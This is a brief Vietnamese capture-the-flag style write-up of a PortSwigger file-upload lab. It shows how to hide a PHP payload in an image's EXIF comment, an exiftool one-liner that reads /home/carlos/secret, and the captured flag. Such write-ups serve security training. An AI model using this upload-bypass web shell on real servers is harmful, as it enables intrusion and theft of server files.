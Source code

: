 # Target Goal: 
Upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``

# Recon: 
Upload thử 1 shell code php, đương nhiên web sẽ chặn các định dạng khác ngoài file là ảnh

Bài lab này chúng ta sử dụng polygot file cụ thể là Phar file format

Tìm hiểu về PHAR:
https://en.wikipedia.org/wiki/PHAR_(file_format)

Tìm hiểu về polygot file:
https://d47sec.wordpress.com/2021/09/02/tim-hieu-ve-polyglot-file/

Tạo 1 file ảnh nhưng có payload là file php, một số tiêu đề có thể excute được payload là phần comment của ảnh đó:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/ccda1522-b925-4da5-b90b-ff2fb1820aaa)

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" liem.jpg -o shelllab.php`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/9a1b82d2-7dcc-4034-be43-42deb9163977)

![image](https://github.com/vanniichan/Portswigger/assets/112863484/8add92a7-5569-457c-8f27-42f885b44a1b)

Open image in new tab -->

Flag: `bpUrmh8hkya7p3ST5vhAzWTuUrJKB5c4` 
